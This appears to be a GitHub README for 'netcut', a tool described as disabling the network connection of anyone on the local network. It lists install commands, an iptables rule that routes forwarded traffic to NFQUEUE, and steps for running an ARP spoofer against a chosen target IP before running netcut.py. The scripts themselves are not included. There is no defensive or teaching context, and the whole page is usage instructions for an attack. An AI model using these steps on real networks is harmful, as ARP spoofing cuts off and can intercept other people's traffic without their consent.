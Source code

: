 # netcut
Disable the net of anyone present in your network

Directly download arp_spoofer.py and netcut.py

ONLY WORKS IN LINUX

Run the following commands in terminal:

1.) apt-get install build-essential python-dev libnetfilter-queue-dev

2.)pip install NetfilterQueue

3.)sudo apt install net-tools -y

4.)sudo pip3 install scapy

5.)iptables -I FORWARD  -j NFQUEUE --queue-num 0

6.)python arp_spoofer.py -t [target IP] -s [sppofing IP]

7.)open a new terminal or split the terminal

8.)python netcut.py


